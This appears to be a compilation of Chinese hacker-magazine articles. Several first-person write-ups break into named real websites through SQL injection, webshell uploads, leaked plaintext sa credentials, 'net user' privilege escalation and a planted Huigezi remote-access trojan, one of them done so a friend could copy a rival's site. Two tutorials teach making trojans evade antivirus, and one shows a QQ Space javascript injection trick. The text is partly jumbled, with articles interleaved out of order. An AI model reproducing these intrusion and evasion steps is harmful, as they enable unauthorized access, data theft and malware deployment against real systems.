北京国之源软件技术有限公司是由教育部中央电化教育馆和国讯教育集团共同投资组建的，为用户提供教育软件产品和教育资源服务的国家高新技术企业和软件企业。公司规模还是挺大的，我也曾用过他们的软件产品，确实很不错，但不知公司网站安全如何呢？
最近忙着做课件，由于缺乏素材，所以上网找找，不知不觉就逛到了几个国内著名的教育软件公司的网站，等东西找到并制作完成了课件后，顺便做了次安全检测，本文就是对其中之一的国之源公司网站的检测过程。
## 二、初步分析

打开公司网站：http://www.gzy.com.cn，如图 1 所示。公司网站主要是以新闻和产品板块，还有一个论坛和员工 CLUB，整个网站看起来是自己整合的，并非整站程序。依次翻看各板块的链接，除论坛以外，基本是不带参数提交的链接或者是静态网页。在百度里用关键字“site:gzy.com.cn asp”找了找，搜索到的链接居然也没有一个是带参数提交的，没有参数提交当然不会有注入了。

难道只有从论坛入手吗？
论坛是用动网程序做的，没有版本的显示，试了试下载默认数据库 /data/dvbbs7.mdb，没有，要不是改名了，要不就是 SQL 的版本。试了几个动网已知漏洞利用，没有什么收获。
## 三、发现注入点
不甘心地又一次翻遍全站，发现了一处带参数的链接，如图 2。但并没有注入漏洞；手工尝试注入检测，结果如图 3 所示，看来是做过防注的。

看来是很有困难的啊！不要灰心，加倍努力和细心地继续找下去。功夫不负有心人，终于找到了一个产品评论的链接：http://www.gzy.com.cn/products/Review_list.asp?productname=新课标主题学习资源管理应用系统 V5.0，同样也带有参数。这个地方并不显眼，很容易就漏掉了。手工检测，的确存在注入点，放入注射工具啊 D 中检测了一下，如图 4 所示。

## 四、尝试利用注入点

先来按常规检测注入点的有关信息，工具跑得结果如下：当前用户：dbo，数据库：BBS，用户权限：sysadmin，多行执行：
不支持。
SA 权限，先是找不到注入点，这一下子就来一个最惬意的注入点，真是令人兴奋！这意味着不出意外就应该可以拿下该站了。但是，在试着运行命令时，却没有显示，不知是成功执行了，还是没有回显。还是先进后台看一看吧，用工具的管理员入口检测功能并没有找到管理员登录地址，手动猜了几个也没有找到。怎么办？其实我们可以通过注入点利用“列目录”功能，把目录列出来，自然就可以找到后台地址了，最后找到的地址是：http://www.gzy.com.cn/backstagemgr/Index.htm，图 6。

下面当然是用工具猜解得到管理员账号和密码来登录了，用工具猜得账号：admin，密码：de6db21031c20844（经 www.cmd5.com 在线破解得到是 gzy123），图 7。
成功登录，图 8。

在后台转了一圈，觉得太简陋了，没什么可以利用的。到这时候感觉真的很不好，SA 的注入点拿不下来绝对是自己技术水平低的问题。

## 五、继续尝试

继续整理思路，想到前面发现的站上还有一个很可能是 SQL 版的动网论坛，可以跨库查询到论坛的管理账号，然后进论坛的后台设法得 webshell。用工具先列出所有数据库，如图 9。
发现其实论坛与其他板块是整合到一起的，用的同一个数据库，那么前面的管理账号 admin 和密码 gzy123 同样也可以登录论坛了。果真登录成功了，也看到的确是 SQL 版本，图 10。
想用数据库恢复功能搞一个 webshell 上去的（办法大家应该会的，不会的看以前的杂志），但却发现这个动网是一个正宗的 SQL 版，后台没有这项功能的，如图 11。（之所以说是正宗的 SQL 版，因为 Access、SQL 版综合版还是有数据库恢复功能的）
看来从论坛我也搞不到 webshell 了，不过除备份的方法以外还没有试过，希望知道如何利用的哥儿们告诉我一下，应该还是有办法的。我们再来试试 SQL 差异备份和 LOG 备份的办法吧！刚执行第一句就发现根本也做不了，如图 12。

真是郁闷，很是无奈，似乎没有办法了。

## 六、得到 webshell

经过一段思考，还是决定回到工具上，结果就在试用“上传”功能时有了转机。如图 13。

上传得到 http://www.gzy.com.cn/up.asp 文件，结果提示是访问受限。于是换用一句话木马上传上去，连接成功，如图 14。
然后我们就可以上传一个大马上去，如图 15。

## 七、权限提升

权限提升我们可以有哪些办法？大家常用的是 servu 上传程序，还是找到 pcanywhere 的 cif 文件然后得到密码？我这儿不用这些，因为我们知道网站程序数据库用的是 SA 的用户，所以我们先来到 SA 的密码，然后连接数据库执行命令就 OK 了。用
webshell 得到 conn.asp 文件内容如下：

```
<%
	connstr="Provider = Sqloledb; User ID = sa; Password =gzy2008; Initial Catalog =bbs; Data Source = (local)"
%>


```
我们用 SQL 工具连接，结果发现不能远程连接，可能是作了限制，也可能是防火墙的原故，如图 16。
看来只能本机连接，所以又用 webshell 的 SQLRootKit 功能，然后执行系统命令，建立用户：'net user abcd 123456 /add'，提升管理员：'net localgroup administrators abcd /add'，结果成功完成，如图 17。
下面当然是 3389 连接一下，结果发现出现了如图 18 的对话框，难到管理员组不可以 3389 连接？不可能的，后来又重
新用 webshell 看了看，原来是管理员把超级管理员组改名了，改成了 admins，而不是 administrators。在 webshell 里执行 'net localgroup admins abcd'，然后再次连接，成功，如图 19。

这样我们就得到了最高权限了，本次检测就算基本完成了。

## 八、写在最后

下面当然是联系管理员了，我在服务器的各盘看了看，居然找到了 QQ 的安装目录，里面还记有一个 QQ 号，我想这一定是管理员的 QQ 号了，加了以后问确是他的，与他说了网站的问题，对方很是感谢，最后我帮助他补了漏洞。不多说了，欢迎与大家我交流，我黑手论坛 ID：elin。

> 编辑点评：如果我记得不错的话，SQL 版动网后台可以直接执行 SQL 语句的，在哪也可以执行备份之类的语句。SA 权限，又是 WEB 与 SQL 在同一台机器上，真是没有什么好说的了。不过，作者在文章中登录 3389 是非常自信，相信自己加的用户一定是可以的，这份自信恰好反应了对一些常用命令的熟悉程度。
## 互联星空 是这样“沦陷”的

e-sky [E.S.K.Y]

今天上QQ一瞅，QQ秀被腾讯给拔了。腾讯的BT规定，衣服竟然也会过期……看来是该刷点Q币了。

折腾了老半天，竟然一无所获。哎，心情那个不爽啊。一眼瞅到了互联星空的支付错误页面，嘿嘿。腾讯以我的能力肯定不用想了，那么互联星空是否存在漏洞呢？今天我就来测试一下它的安全性究竟如何。

首先打开 Google，在搜索栏中输入“site:vnet.cn inurl:asp?id=”。

之所以这样进行搜索，是因为我觉得一般 asp 较 php 而言更容易搞定。这也许是 asp 的先天不足吧。打开其中一个链接：“http://it.west.gs.vnet.cn/list.asp?id=1649”（图1）。

可以看出是一个新闻系统。那么是否存在注入漏洞呢？提交“and 1=1”时返回了正常页面（图2）。当提交“and 1=2”时页面内容发生了变化（图3）。

初步判断，网站存在注入漏洞，手工注入太麻烦了，直接用 Domain3.5 进行猜解。结果如图4所示。Domain 检测不出后台的表。

现在我们就被卡死在这里，该如何突破呢？如果能够下载到一套相同的新闻系统进行分析也是一个不错的办法。在网址后面加上“/manage/login.asp”，后台出来了（图5）。

是“西部时空新闻发布系统”，在 Google 里面找了半天也没找到。没办法，只好找个其他的站点尝试渗透了。在 Google 中键入“intitle:西部时空新闻发布系统用户登录”，发现只有佛慈制药 http://www.foci-pharm.com/ 使用的是这套系统。

我们利用 Domain 的旁注功能，检测到这台主机上面绑定了三个域名，分别是 www.fczy.com、www.foci-pharm.com 和 www.zwyg.net，其中 zwyg.net 有上传漏洞。

直接在网址后面加入 upload.asp 出现上传页面，且未经任何过滤，直接上传 asp 木马得到 webshell。这里抓图6、7、8证明一下。

接下来当然是去找那套新闻系统的源码啦，我翻呀翻，总算找到了“佛慈制药”的目录。来到网站的“manage\config”目录，发现有一个 upload_set.asp 文件。从名字上不难看出，这一个跟上传设置有关。我们依葫芦画瓢，把此文件在互联星空打开（图9）。

果然不出所料，立即在文件类型中加入“asp”然后点击“修改设置”。提示修改成功，然后直接访问 http://it.west.gs.vnet.cn/manage/user/adduser.asp 加了一个超级管理员上去（图10）。

可能有朋友会觉得奇怪，你都没有登录，怎么加的用户呢？这正是我所要说的。这套新闻系统存在非常严重的漏洞，大部分页面都没有进行用户的身份验证，这就导致我们可以直接访问后台的相关页面，从而得到 webshell。用刚才加上号的账号登录，找到图片上传的地方（这样比在 webshell 里面找那些文件要快些），http://it.west.gs.vnet.cn/manage/infomation/photo_upload.asp，直接上传 asp 木马，成功（图11）！

既然已经得到了 webshell，那么下一步当然是要提权咯，用

# 入侵某红客联盟

Flyh4t[脚本安全小组]&幽游[SUS]

+ 从本文中你可以学到：
- JSP 的一个漏洞暴露路径的利用方法

最近在准备考研，前几天去找导师聊天的时候惊闻一个噩耗，我校的信息安全专业要380多分才能参加复试。我想想难度还真有点大啊，于是又想找工作去了。回来翻看聊天记录的时候想起来珠海一个安全公司曾经让偶加入，于是偶就按他留下的网址来参观了下他们的站。

如图1所示，随便点几个链接看下，是个 jsp 的站点。输入一个不存在的网页让它报错，发现是 apache+tomcat 的组合(图2)，这个应该是比较常见的 jsp 平台了。

再次找了几个可以提交参数的页面，加个单引号提交上去，没有报错，应该不存在注入漏洞了。想想也是啊，好歹也是个技术站点，不太可能还存在明显的注射了吧。没办法，请出偶个人版的扫描器扫一下看开了哪些端口吧。如图3所示，这个扫描器速度非常快，一会儿工夫结果就出来了。看了下不禁觉得好笑，修改得真没有水平啊。显然

webshell 自带的端口扫描器扫了一下，发现服务器开了 43958 端口，这说明网站有 Serv-U。呵呵，这可是个提权大户，不知多少网站都死在了它的身上(图12)。打开 webshell 里面的 Serv-U 提权工具（超强版）。在命令里面输入“D:\gz.exe”（gz.exe 是我传上去的灰鸽子）然后提交。很快这只肉鸡就上线了(图13)。

至此，我们已经拿下了这个互联星空站的最高权限。最后做了一下“善后”工作^_^。总结一下，网站“沦陷”的原因就在于网管对网络安全的疏忽，稍稍用心一些，就能发现此新闻系统的诸多漏洞。对于修补方法，我想大家都会，只要在相关页面上加入验证代码，对提交的参数进行过滤即可。不过我建议大家不要用这种新闻系统，否则你会得不偿失的。玩黑，主要靠的就是思路。思路打开了一个样，否则就是另一个样。如果思维足够灵活，即使技术稍有欠缺，那么也是不成问题的。这不仅仅检测了这一个站，还有许多的站点都存在漏洞，我拿到了不少的 webshell，由于临近中考学习紧张，没有时间一一记录，请大家见谅。我大致看了一下，提权都不是很难。

本次渗透给我的触动很深：难道网络安全真的只是一句空话？现在很多国外的站点的安全性就很不错，起码来说整体的水平比国内的要高一些。但愿国内的安全工作者能尽到自己应尽的责任。

> > **编辑点评**：黑箱测试没有办法时，找到同一套系统白箱测试是一个好办法，这篇文章就是一个例证。

2433 对应 1433，开给 mssql 的；3308 对应 3306，开给 mysql 的；7389 不用说是远程登录端口。至于 7631 嘛，应该是对应 5631，开给 pcanywhere 的（后来证实了我的猜想是正确的）。这几个端口应该在提权的时候用得着。听说有 1433 的远程 0day，不过等偶老了也许能拿到，所以偶还只能从其他的端口入手。（这里要说下 25 端口，是 imail 的默认端口，很多新手忽视对这个端口的利用，我朋友幽游告诉我，他入侵的时候往往会利用 imail 的溢出打开突破口，然后通过内网渗透的技巧进行下一步的攻击，他拿了不少大站。大家可以和他交流，他的 QQ 是 149367。编辑 lcx：25 是 smtp 端口，不一定对应的就是 imail，这样说不太对。）我对 8080 端口突然产生了兴趣，于是访问了一下。如图4所示，结果给我带来一个不小的惊喜，经验告诉我，可能有戏。

大家都看过《JSP漏洞大观》这篇文章吧。从其中得知 Resin 存在一个漏洞，配置不好的话，通过提交畸形的 URL，能够远程获得目标主机系统中所有文件的读取权限。我就先读下 D 盘了，看看存在漏洞否。结果真如我所料，惊喜ing！稳定下激动的心情，寻找目标站点文件，看能读不能。Yeah，真是垃圾啊，连数据库连接文件也让我看到了，密码是明文的哦。如图5、6、7，我强烈地怀疑我人品爆发了。

这个显然是 oracle 数据库的连接密码，还算有意识，密码不是很简单。我还没有办法去连，正在我郁闷的时候，幽总跳出来说：“我还有传说中的社会工程学嘛，哈哈。”我心领神会，立即以迅雷不及掩耳的架势拿这个用户和密码去登录它 FTP，事实再次证明我的人品今天算是爆发了，截个图 8。

下面的事情就简单了，先传个 jsp webshell 刺探下情况，再去下载 pcanywhere 密码文件（图9、图10）

# 关键旅游之旅——记一次入侵手记

fint.yongyule

## 在本文中你可以学到：

+ 1、Googlehack 入侵攻略
- 2、注入，备份
- 3、多思维入侵

# 一、无奈的承诺

好兄弟敏，最近接到一个项目，为一个旅游公司开发网站，作为兄弟的我当然要他破费一下，放点血，跟他一说，约好在某茶楼相见。吃完饭后，他跟我说，我要入侵一个网站。我问是怎么回事。他告诉我旅游公司的老板要他按照另一个旅游公司的界面开发，而他研究很久发现他写出来的代码运行没有那个网站的功能强大，但是这个星期又要交货了。郁闷中想到了我，唉，没有办法，谁叫我是他兄弟而且平时他给我不少好处，还答应包干我这一周的伙食，唉！为兄弟两肋插刀，再所不辞！

下面的事情就不说了，因为下面什么都没发生，安全检测就此结束。反正这个所谓的技术公司偶是绝对不会去的了啊，它声称对 jsp 技术很有研究，看来也不过如此而已。就脚本而言，当前 asp 的弱点被人挖掘得差不多了，php 研究的人也越来越多，jsp 呢？也许下一个 web 弱点的研究热潮就是它了，你准备好了吗？这次入侵要感谢幽总的帮助，欢迎和我们交流。

> [文章里用到的扫描器 sussc.exe 和 flyhat.jsp 已收录在本期光盘中]

编辑点评: 《jsp 漏洞大观》我应当去好好读一下，这么好的漏洞我怎么从来不知道，也没有用到过呢？难道是人品问题？不过说起来，要做黑客，手头上必要有一个漏洞库的收集整理工具。

# 二、良好的开始

打开兄弟给的网站，不错。界面看着就是舒服，看那公司的简介，才知道是个大公司。界面的 163 邮箱那么好看，功能还是比较强大，难怪我那兄弟感觉做起来困难，如图1所示。

做得这么好不知道安全性怎样？先不管那么多抄家伙——明小子，看看有没有旁注，通过明小子打开百度，在百度中选择高级搜索，关键字中输入“site:.nskk.com.cn”，选择搜索结果显示条数为最大值 100 条，点击搜索，就可以搜索到百度收录的所有关于这个站点的链接。很快就在明小子的下面出现了网站的注入点（图2），检测注入，几十秒过后，看到结果，令我欣喜若狂啊，sa 权限。如图3所示，哈哈。胜利似乎在向我招手。看来我今天的运气不错，我该去买彩票，呵呵，买这么久彩票，就是没有中过奖。郁闷中！算了还是多写文章支持《黑手》，不要贪那大便宜，呵呵言归正传。开始我们今天的主题。
看来一切似乎来得太顺利了。该

# 三、事有突变

这个时候，可以完成朋友交给的任务了，海洋就有这个功能，打包下载，有饭吃那是铁定的了，怎么去让他多破费，那是后话了，没有办法，我们学校的菜太难吃了，我得靠这个机会让他给我改善改善生活，你说是吧，呵呵。瞎唠嗑了一下，进入正题，首先看看自己的权限到底有多大，让它给我执行命令，看看开了哪些端口，开放哪些服务什么的，为自己下一步入侵先查探查探，结果让我懊恼不已，没有权限，我心顿时感觉不爽啊，前面那么爽的，不可能就这么它就把我挡在服务器之外啊，如图11（编辑 lcx：我晕，你都是 SA 权限了，你还看看权限有多大！）。

对啊，我 webshell 有浏览这个服务器文件的权限，我再找找有什么可以利用的地方。这下来到 C 盘，发现一个文件夹，哈哈，看来没有到绝境，有回生之妙药啊，那就是如图12所示中的 microsoft.net，呵呵，说明有可能解析 aspx 脚本。事实证明我的猜测是正确的。

说实话写文章之前我已经拿下这台服务器了，看到图12中阴影的文件夹上面的文件夹没有，cain 听说过吧，我入侵后安装的，要知后事如何，且听下文分解。

# 四、巅峰受挫，雾开月明

从上面可以看到，我判定服务器解析 aspx ，我上传 aspx 了木马，出现了可爱的登录界面，权限是大多了，在 cmdshell 下输入“netstat -an”，发现开有 3389 端口，如图13所示。

唉，没有看到 43958，郁闷！那可是我们小菜的最爱啊，不好办哪！既然开放了 21 端口，那肯定存在 ftp，不知道是什么版本的。继续在 cmdshell 下输入“netstat -an”，所开的服务尽收眼底，如图14所示。

看到图14的 MSSQLSERVER 突然脑海灵光一闪，我不是 SA 权限攻进来的吗？借用《黑手》的不知哪位老兄的话，我 SA 权限，我怕谁，呵呵，寻找数据库连接文件，哈哈，真让我找着了，打开一看，正是我想用的用户名，就是 sa，如图15所示。

密码还是设置得挺强悍的，没用啊，这不还不给让我看到了。呵呵。打开 aspx 木马上自带的 sqlrootkit.net 输入用户名和密码，在命令框里输入添加用户的命令，成功执行如图16、图17。

哈哈，到现在我可是成功了一半，还没有登录啊，50% 和 99% 其实是一样的，都叫了，用户进去了，写文章前也进去过，现在出现这种情况，如图18。

难道有人登录在服务器上？我用我以前的账号也登不上，郁闷了。前面没有截图啊。看看是什么原因？在 cmdshell 下输入命令“query user”查看当前登录用户一看，有人也用一个后缀带 $ 的用户登录，是今天上午 2 点多的时候登录的，如图19。我知道在写文章之前，我发了个入侵这个网站的教程给别人，但是他决不会把我的用户删除了啊，郁闷！是谁呢？管他呢？我有 SA 权限，可以改了他的密码，如图20（编辑 lcx：用 logoff 不是更好吗？）。

登录后才发现应该是管理员搞的鬼，第一、我是以 xintiange$ 登录的，从图17显示的却是 digiye，如果是另一个入侵者克隆 digiye，我在用 query user 查看时应该是两个 digiye，而不是一个 digiye 和 xintiange$；第二、从字面上理解，就是“新添个”也就是新添个用户，也许他以为这样，别人登不上他的服务器；第三、从图21中的 winftpserver 中的用户名可以看出没有其他人侵的建立的用户。

# 五、内网渗透

说实话内网渗透是一门艺术，什么会话劫持啊等等，我没有试过，正在学习中，但是在用工具择内网扫描，cain 在内网嗅探，还是干过的。本来想展示一下整个内网渗透过程的，唉！后悔当初没有截图，现在是在管理员的桌面搞内网渗透，万一管理员在怎么办？要是我以前的账号没有删除，我本来就是想演示给大家看的，我在以前的时候早已经把东西传过去了如图22、23。

图23中的 hscan 很好用的，我已经扫描到弱口令和嗅探到 7 个 ftp 密码，1 个 mssql 密码，下面就拿一个出来试试。好了，随便拿一个来测试，哈哈，

通过 flashfxp 成功进入。如图24所示，然后传来个 webshell。

从图25中可以看出该服务器中含有 serv-U，可以用它来提权，看来又有一台肉鸡来了，哈哈，上传我的 asp 木马，命令中查看开放的服务，发现有 pcanywhere 和 serv-u，如图25所示。没有 Terminal Services，从开放的端口看来也没有 3389，那么下一步就是要公开远程登录端口，要么通过 pcanywhere 连接，第一种方式，我暂时不赞成，开放新的端口容易被敏锐的管理员发觉，而且又要下工具。既然有现成的 pcanywhere，我就用它来连接吧，先到 C:\Documents and Settings\All Users\Application Data+ MSSQLSERVER
- Network Connections
- NT LM Security Support Provider
- pcAnywhere Host Service
- Plug and Play
- Print Spooler
- Protected Storage
- Remote Access Connection Manager
- Remote Procedure Call (RPC)
- Remote Registry Service
- Removable Storage
- RunAs Service
- Security Accounts Manager
- Serv-U FTP Server

图 25

Symantec\pcAnywhere 下辖在后缀名为 cif 的用户数据文件，很快下载下来了，成功破解，密码挺强悍的，如图 26 所示。

接下来就是提权了，通过 ASP 版的 Serv-U 提权工具，成功提权加上了一个 yongyule$ 的用户，如图 27、28 所示。
图 26
图 27
图 28

现在可以连接 pcAnywhere 了，结果让人心灰意冷啊，出现图 29 这种情况，尝试连接了好几次都不行，可是明明开放了这个服务啊。

呵呵，没有办法了，只有拿出我的鸽子，最近在练习鸽子免杀，做了个过卡巴、瑞星、金山、诺顿的免杀而且成功上线的服务端，郁闷就是不能过麦咖啡，郁闷！好了，通过 FTP 将鸽子传上去，Serv-U 提权工具里执行，如图 30 所示。

哈哈，上线了，我们来看下，如图 31 所示。就这样成功拿下同个网段的这台主机。
图 29

告诉他哪些页面存在注入，要他修改下源码，到入侵结束，已经得到三台内网服务器成为我的鸽子安家之所。文章没有什么技术含量，发现在内网渗透中，学到不少东西，用到以前听说过但是没有试过的东西，发现实践给人带来的感觉就是不一样，注入漏洞很早就出现了，到现在还是有那么多的网站存在这个漏洞。看来我们这些菜鸟有的玩了。

呵呵，欢迎大家到 nohack 论坛来与我交流，我的 id 是 yongyule，或者 bbs.cbhu.org & www.fint.cn/bbs 与我交流。
图 30
图 31

# 六、入侵后的总结

呵呵，既然已经拿下了服务器的最高权限，自然直接打包，把文件通过 tftp 给传回来了，不负朋友所托，把整个测试告诉他，

> > **编辑点评：** 样子这顿饭真好赚呀。只是我和读者读完都有点不明白，既然是 SA 权限，为什么不直接在 SA 下上传你的灰鸽子然后运行，非要拿 webshell 然后再提权，从文章的上下文来看在注入点的 SA 上可以运行 cmd 命令的。不过这篇文章一走弯路，普通的读者估计会领会更多的入侵方法了。

# 获得免费 5 级花加人参果

梦幻风雨

从本文你可以学到：

如何改动一句代码实现刷花

前段时间出现了刷一个 5 级花的方法，我也试了，很爽，可是今天再给一个朋友弄 QQ 空间的时候却发现不管用了。不过没关系，这点困难难不倒我们菜菜，今天我就再给大家介绍个更好的方法。

首先我们登录 QQ 空间，登录后在地址栏里面输入：

```javascript
javascript:window.top.space_addItem(7,2468,0,0,0,1,0);


```
图 1

看看现在是不是刷出来了，如图 1 所示。

现在直接点击“保存方案”就成功了，如图 2 所示。
图 2

接着我们重新进入空间就可以看见了。说到这里，大家是不是觉得，只刷一种花……很单调吧？没关系，我告诉大家一个方法，可以刷任意的花。

首先我们打开“装扮空间”，点击“养植物”。我们来选择一个 5 级植物吧，就选这个，如图 3 所示。
图 3

鼠标右键选择“属性”，在地址栏里我们可以看到一行地址，复制 .GIF 前面的那几位数字就可以了。例如这个花的代码是 7183，我们把复制到的数字放到前面所提到的那个代码里面，替换掉原来的 2468，变成如下代码：

```javascript
javascript:window.top.space_addItem(7,7183,0,0,0,1,0);


```

然后再按照前面所说的方法就可以换任意的花了！最后祝大家五一快乐。

> > **编辑点评：** 本篇文章经过《黑手》公布后必然会在五月掀起刷花狂潮，给 MM 刷，给爱爱刷，给情情刷……单身朋友也可以刷嘛，刷点花花草草，保护地球环境。五一大家乐，刷花最快乐，耶……

# 木马免杀之重建输入表

> > 是否使用别人的免杀木马的时候，却被杀软一次次无情地封杀？是否想自己动手打造自己专用的免杀木马呢？那么，请带着你的热情跟着本期的作者一起学习吧！

蜀国布衣

## 从本文中你可以学到：

- 两种重建输入表进行免杀的方法

现在网上有很多好用的黑客程序，可是在推出后不久就会被杀毒软件所查杀，所以菜鸟们都希望拥有属于自己的免杀木马。为此我们已经在这个栏目看到了很多介绍木马免杀的方法，比如多重加壳、加花指令、修改花指令等，但是这些方法对于特征码在输入表段的时候就非常容易出错。这里我就为大家介绍两种方法，来重建程序的输入表进而达到免杀的效果，同时又不会出现免杀程序出错的结果。

# 实际操作

## (1) 脱壳重建

首先我们通过手工方式进行脱壳，然后通过程序修复输入表来进行重建了。今天我们利用 WebDAVScan 这款扫描工具来进行演示，首先对其进行加壳处理，选择的加壳工具是常见的北斗加壳。运行北斗加壳程序，直接将测试程序拖拽到加壳程序的界面中进行释放，接着点击“压缩”按钮即可成功完成加壳操作，如图 1。
下面我们运行 OLLYDBG，点击工具栏中的“打开”按钮载入加壳后的测试程序。测试程序载入以后停在 00407A4E 这个地方，连续点击 F8 单步向下走，注意当看到右边的 ESP（堆栈指针寄存器）和 EIP（指令指针寄存器），同时变红的时候就停止下来，这时程序停留在 00407A4F 这个位置，如图 2。
我们来查看一下 ESP 的值，因为我们采用的是 ESP 定律脱壳，ESP 的值是 0012FFA0。我们记下这个 ESP 地址后，并在左下角的 “Command” 输入框中输入“dd ESP 所对应的地址”，即：
dd 0012FFA0，如图 3。

在数值下面单击鼠标右键，接着选择“断点”菜单中的“硬件访问”中的“WORD”命令，如图 4。

下面按下 F9 按键运行来到断点，然后在按 F8 单步向下走，一个大跳转就来到程序的 OEP，也就是程序的入口，即 00407CC0 这个地址，如图 5。
现在我们在该地址上面点击鼠标右键，选择“脱壳在当前调试的进程”命令，在弹出的窗口中点击“脱壳之”命令将测试程序另存为 1.exe 即可，如图 6。
现在我们进行程序输入表的修复操作，运行 LordPE 这款功能强大的 PE 文件分析工具。点击“重建 PE”按钮以后选择脱壳的测试程序，然后 LordPE 将自动对程序输入表进行修复，最后等待修复完成后点击“确定”按钮退出即可，如图 7。
## (2) 直接用 ImportREC 重建

现在我们通过 ImportREC 这款程序，直接来进行输入表的重建。首先运行 ImportREC 这款资源重建工具，点击“选项”按钮后在弹出的窗口中，将“新建输入表”内容里面所有选项前面的勾去掉，然后再确定退出并重新运行它。

下面运行 OLLYDBG 后载入一个灰鸽子的服务端程序，接着返回 ImportREC 窗口在“获取系统中的进程”列表中选择服务端程序的进程。然后运行 PEiD 同样载入服务端程序，点击“子系统”旁边的选项按钮，获得服务端程序的 PE 信息内容。如图 8。

记录下“导入表”中“RVA”和“大小”中的数值，即 000A8000 和 000033A2，同时将它们分别填入 ImportREC 窗口中的“RVA”和“大小”选项里面。现在点击窗口中的“获取输入表”按钮，当
输入表获取完成以后，依次点击窗口右侧中的“显示可疑函数”和“显示无效函数”按钮，接着 ImportREC 将自动分析程序中的可疑函数和无效函数，并且在“已经找到的输入表函数”窗口中显示出来。现在我们在这些无效函数和可疑函数上点击鼠标右键，然后选择其中的“删除指针数据”命令，如图 9。

板”中的“地址”命令。然后点击工具栏中的调整命令，接着在弹出的窗口键入该输入表的地址即跳转到老的输入表地址。点击鼠标右键选择“二进制”菜单中的“使用 NOP 填充”命令，将这些地址代码填充掉也就完成了输入表的删除操作。然后再选择右键菜单中的“复制到可执行文件”，接着在它的子菜单中选择“选择部分”命令，然后在弹出的新窗口通过鼠标右键中的“保存文件”命令，就可以我们将修改的服务端程序进行保存。
点击“修复抓取文件”按钮并选择服务端程序，下面程序会对服务端程序进行自动修复，并提示“修复完成并已经保存”。如图 10。

地址代码填充掉也就完成了输入表的删除操作。然后再选择右键菜单中的“复制到可执行文件”，接着在它的子菜单中选择“选择部分”命令，然后在弹出的新窗口通过鼠标右键中的“保存文件”命令，就可以我们将修改的服务端程序进行保存。

## 小结

到此为止，我们为大家演示了两种重建输入表进行免杀的方法。不过需要说明的是，重建输入表这种方法只对内存免杀有效，特别是在内存扫描时几乎所有内存特征码都在输入表的情况。但是对于普通的文件免杀不起任何的效果，所以我们需要通过加花、加壳、加密等方法进行了文件免杀以后再通过该方法进行内存免杀。同时做木马免杀之前最好先把输入表重建，这样既可以减少对特征码的定位，使得整个免杀操作简单了不少。

> 【本文介绍的目标程序 WebDAVScan、灰鸽子的服务端程序和相关工具已收录在本期光盘中】

> 编辑点评：作者通过简单的实例，介绍了两种免杀的方法，这是在加花、加壳、加密之后的又一种好方法，但可惜的就是只针对内存免杀有效，文章简单易懂，特别适合入门或者没入门的读者！

现在用 OLLYDBG 载入被 ImportREC 修复的服务端程序，我们接下来要做的就是删除以前老的输入表，让服务端程序使用新的输入表。首先点击 OLLYDBG 工具栏中的 M 按钮将窗口切换到显示内存窗口，我们可以在“包含”内容中看到标注为“输入表”的一项，这就是服务端程序中新的输入表。向上看可以在“区段”中找到一项内容为“.idata”的项目，选中它点击鼠标右键里面“复制剪贴”

# 木马免杀之过主动防御

蜀国布衣

## 从本文中你可以学到：

1. 过主动防御的多种方法
2. 文件的基本免杀
3. 知道卡巴斯基的一个缺陷
4. 如何将脚本语言编译成可执行文件
5. 文件的压缩及捆绑

目前杀毒软件主要使用两种检测方法，即以病毒特征码为基准的分析，和以主动防御为主的探索式分析。第一种方法通过将文件与已知病毒的特征码作比较即可，但是也可以轻易地被免杀程序骗过，因此主动防御为主的探索式病毒检测方法逐渐普及。那么我们如何才能让自己的木马程序躲过主动防御的监控呢？今天我就告诉大家如何对免杀程序进行设置，从而成功躲过卡巴斯基的主动防御功能。

# 一、文件免杀

首先准备好一个需要免杀的程序，接着运行 OllyDbg 载入该程序，程序自动定位于入口点。用鼠标选择后点击右键菜单中的“汇编”命令，接着在弹出的“汇编”窗口中将代码“push ebp”改为“pop ebp”即可。

修改完成后进行保存，选择修改后的语句并点击右键菜单中“复制到可执行文件”下的“选择部分”命令，然后在弹出窗口中点击鼠标右键，选择其中的“保存文件”命令，将修改的程序进行保存。

接着我们再用加壳程序 ASProtect 对修改过的程序进行加壳保护，这个程序是一款众所周知的超级保护壳。运行 ASProtect 后，在“选项”标签中的“保护文件”选项中设置程序的路径，接着在“输出文件”
选项中设置加壳后程序的路径。然后点击“模式”标签，再点击“添加模式”按钮并选择“激活该模式”选项。最后切换到“保护”标签，点击其中的“保护”按钮就可以进行加壳处理，如图 1 所示。

现在再用 OllyDbg 载入加壳后的程序，程序的入口点是一个跳转语句，我们只需要在跳转地址上加 1 就可以了，即将 PUSH 4D9001 改为 PUSH 4D9002，如图 2 所示。这个看上去和我们平时使用 PEditor 修改入口点很相似。

修改完成后，按照前面的步骤保存修改文件为 mm.exe 即可。完成后通过多引擎样本查询网站（www.virustotal.com）进行检测，看到文件已经成功躲过包括卡巴斯基、诺顿、NOD32 等杀毒软件的查杀。

# 二、简单过主动防御

文件免杀完成后，我们就可以进行过主动防御的操作了。首先运行“Fuck卡巴主动防御”这款免杀工具，在“处理文件”选项中设置文件的路径，点击“处理”按钮即可生成过主动防御的程序文件。由于所用的软件是测试版，所以处理的文件限制在 100KB，并且所有的选项设置都是无效的，如图 3 所示。
该程序之所以能够轻易地躲过卡巴斯基的主动防御，完全是因为卡巴斯基自身存在一个重大的缺陷。当我们将系统日期更改到较早以前时，强悍的卡巴斯基就会自动关闭所有的监控功能！！！这样，其自身就自动失去了防控能力。并且在打开卡巴斯基主界面后，赫然出现“授权许可文件激活日期错误”提示，而当我们将系统日期改回到当天后，卡巴斯基就会自动恢复正常。
# 三、手工过主动防御

通过“Fuck 卡巴主动防御”这款免杀工具进行操作虽然简单，但是它毕竟有很多的限制，所以要想进行无限制的过主动防御功能，还是最好通过手工操作来进行。我们需要进行如下的一些操作步骤，其实那些过主动防御的免杀工具也是按照这些步骤来完成的。

## 1、压缩程序

首先用 WinRAR 压缩这个免杀文件 mm.exe，再双击打开刚刚生成的这个 RAR 文件，点击工具栏上的“自解压格式”图标。在弹出的对话框中点击“高级自解压选项”按钮，然后在弹出的“高级自解压选项”窗口中选择“常规”选项标签，再在它的“解压路径”中填入程序自解压后的路径，这里我们就设置为“C:”，如图 4 所示。然后点击“模式”选项标签，选中“全部隐藏”和“覆盖所有文件”这两个选项，就是为了不让 RAR 文件解压时弹出窗口。

## 2、转换脚本

现在我们需要将下面的这段脚本文件转化为可执行文件，这段脚本文件的作用就是：首先获取系统当前时间，接着将系统当前时间进行修改，然后在脚本程序所设置的延迟时间后恢复系统时间。

脚本文件代码：

```bat
set date=%date%
date 1979-10-01
@echo off & setlocal enableextensions
